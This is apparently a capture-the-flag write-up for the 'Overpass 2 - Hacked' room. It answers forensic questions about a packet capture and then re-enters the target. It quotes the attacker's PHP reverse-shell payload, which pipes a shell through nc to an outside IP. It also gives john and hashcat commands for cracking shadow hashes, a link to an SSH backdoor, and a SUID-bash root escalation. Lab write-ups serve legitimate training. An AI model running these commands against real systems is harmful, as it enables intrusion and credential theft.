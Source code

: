 # Overpass 2 - Hacked

If you are experiencing trouble, google `wireshark follow tcp stream`

- What was the URL of the page they used to upload a reverse shell?

	- Open Wireshark, and then open the pcap file.
	- `/development/`

- What payload did the attacker use to gain access?

	- You have to search a big POST request.
	- `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

- What password did the attacker use to privesc?

	- Packet no. 76
	- `whe***************tant`

- How did the attacker establish persistence?

	- Packet no. 120
	- `https://github.com/NinjaJc01/ssh-backdoor`

- Using the fasttrack wordlist, how many of the system passwords were crackable?

	- Save the content of response 114 on a file called `shadow`
	- `john --wordlist=fasttrack.txt shadow`
	- `*`

- What's the default hash for the backdoor?

	- [ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go)
	- `******** ... ********`

- What's the hardcoded salt for the backdoor?

	- Same file as above
	- `********************************`

- What was the hash that the attacker used? - go back to the PCAP for this!

	- `*********** ... **************`

- Crack the hash using rockyou and a cracking tool of your choice. What's the password?

	- `hashcat -m 1710 -a 0 HASH_HERE:SALT_HERE /usr/share/wordlists/rockyou.txt`
	- `**********`

- The attacker defaced the website. What message did they leave as a heading?

	- Go to `http://<TARGET_IP>`
	- `H4ck3d by CooctusClan`

- Using the information you've found previously, hack your way back in!

	- `ssh james@<TARGET_IP> -p 2222`
	- Enter the password just cracked.
	- `cd .. && cat user.txt`
	- `thm{********************************}`

- What's the root flag?

	- `cd ~`
	- `ls -alh`
	- `./.suid-bash -p`
	- `cat /root/root.txt`
	- `thm{********************************}`




